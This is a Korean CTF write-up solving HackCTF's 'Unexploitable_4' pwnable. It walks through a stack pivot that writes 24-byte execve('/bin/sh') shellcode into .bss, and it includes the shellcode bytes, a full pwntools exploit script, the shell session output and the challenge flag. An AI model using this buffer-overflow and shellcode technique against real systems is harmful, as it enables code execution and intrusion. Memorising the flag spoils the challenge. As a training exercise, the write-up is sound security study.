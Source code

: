 #Unexploitable_4

---

우선 `main()`의 코드는 다음과 같다.

<pre>
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s; // [rsp+0h] [rbp-10h]

  sub_40066D(a1, a2, a3);
  fgets(&s, 44, stdin);
  return 0LL;
}
</pre>

`main()`이외에 다른 함수들을 살펴보았지만 출력을 할 수 있는 함수가 전혀 없어서 leak이 불가능한 상황이다.

하지만 보호기법을 보니 다음과 같이 shellcode를 사용할 수 있음을 알 수 있었다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
</pre>

`main()`의 assembly 코드는 다음과 같기 때문에  rbp의 값을 조절한 후 0x4006db로 ret시켜서 원하는 곳에 44bytes만큼 쓸 수 있다.

<pre>
push    rbp
.text:00000000004006CF                 mov     rbp, rsp
.text:00000000004006D2                 sub     rsp, 10h
.text:00000000004006D6                 call    sub_40066D
.text:00000000004006DB                 mov     rdx, cs:stdin   ; stream
.text:00000000004006E2                 lea     rax, [rbp+s]
.text:00000000004006E6                 mov     esi, 2Ch ; ','  ; n
.text:00000000004006EB                 mov     rdi, rax        ; s
.text:00000000004006EE                 call    _fgets
.text:00000000004006F3                 mov     eax, 0
.text:00000000004006F8                 leave
.text:00000000004006F9                 retn
</pre>

44bytes의 길이는 [dummy 16bytes]+[SFP 8bytes]+[ret 8bytes]+[dummy 12bytes]로 이루어져 있기 때문에 SFP부분에 원하는 값을 넣고 ret주소를 조작한다고 하면 24bytes이내에 원하는 값을 쓸 수 있기 때문에 24bytes 이하의 shellcode를 쓸 수 있다.

하지만 그 24bytes짜리 shellcode를 수행하던 중에 push 명령어를 일정 개수 이상 수행하게 되면 rsp가 rip의 영역을 침범하여 shellcode가 덮어씌워진다. 이 부분이 이 문제의 핵심포인트이다.

---

때문에 최대한 push를 쓰지 않으려고 하였다. 나는 다음과 같은 shellcode를 썼다.

**\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\xb0\x3b\x0f\x05**

<pre>
0:  48 31 f6                xor    rsi,rsi
3:  48 31 d2                xor    rdx,rdx
6:  48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
d:  73 68 00
10: 53                      push   rbx
11: 48 89 e7                mov    rdi,rsp
14: b0 3b                   mov    al,0x3b
16: 0f 05                   syscall
</pre>

해당 shellcode는 18bytes로 한 번의 `fgets()`를 사용하여 입력할 수 있다.

원래는 push rax push rbx를 통해서 "/bin//sh"끝에 0을 위치시켜 문자열의 끝을 나타내지만 push를 없애기 위해서 "/bin/sh\x00"을 rbx에 넣어 push rbx시켰다.

익스플로잇 코드는 다음과 같다.

<pre>
from pwn import*

#p=process('./Unexploitable_4')
#gdb.attach(p)
p=remote('ctf.j0n9hyun.xyz',3039)

main_fgets=0x4006db
bss=0x601900

payload='A'*16
payload+=p64(bss+0x10)
payload+=p64(main_fgets)

p.sendline(payload)

###

payload2='\x48\x31\xf6\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\xb0\x3b\x0f\x05'
payload2+=p64(bss)

p.sendline(payload2)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/40.Unexploitable_4$ python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3039: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{C4n_Y0u_Exp1oit???!}

</pre>

**flag: HackCTF{C4n\_Y0u\_Exp1oit???!}**
